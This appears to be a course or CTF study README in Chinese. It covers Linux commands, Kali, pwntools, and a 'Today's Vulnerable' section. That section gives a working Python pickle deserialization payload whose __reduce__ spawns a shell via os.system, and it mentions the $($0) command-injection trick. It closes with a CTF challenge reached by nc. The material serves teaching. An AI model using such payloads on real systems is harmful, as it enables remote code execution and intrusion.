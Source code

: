 # Slides
 * [Linux_and_SA](Linux_and_SA.pptx)
 * [Python](Python.pptx)
 
## Linux and System Admin
 * **Linux Common Command**
  * `echo $0`: 印出目前在跑的process名稱
   * 如果是$($0) => $() 開啟shell，$0 => 就是shell！
   * 交大網路安全實務期末互打比賽，每個主機上有可以執行任何command的漏洞，大家都忙著寫script過濾command，據說很多人被```$($0)```打死XD
  * `touch`: create an empty file, `cat file`: print file content to stdout, `nc`: create TCP/UDP connection/listen, `cmd1 | cmd2`: pipe stdout of cmd1 as stdin of cmd2
 * **Kali Linux**：綜合了各種滲透測試工具的作業系統，Ubuntu的好親戚

## Python
 * **Socket**： basic module for TCP/UDP connections
 * **Struct**：把byte包裝成little-endian 或是 big-endian的模組
 * **Pwntools**：有超多好用的工具
  * TCP/UDP connection：只要一行XD 還有interactive module
  * 寫shellcode, working with elf, gdb, memory leak, rop chain, translate assembly to string, ...

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 `__reduce__(self)`裡指定。
=> 也就是，反serialized時會call `__reduce__(self)`
 *  `__reduce__(self)` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => `(os.system, (comm,))` 會desearlized成 `os.system("sh")`，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： `nc 140.113.194.85 49167`
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable
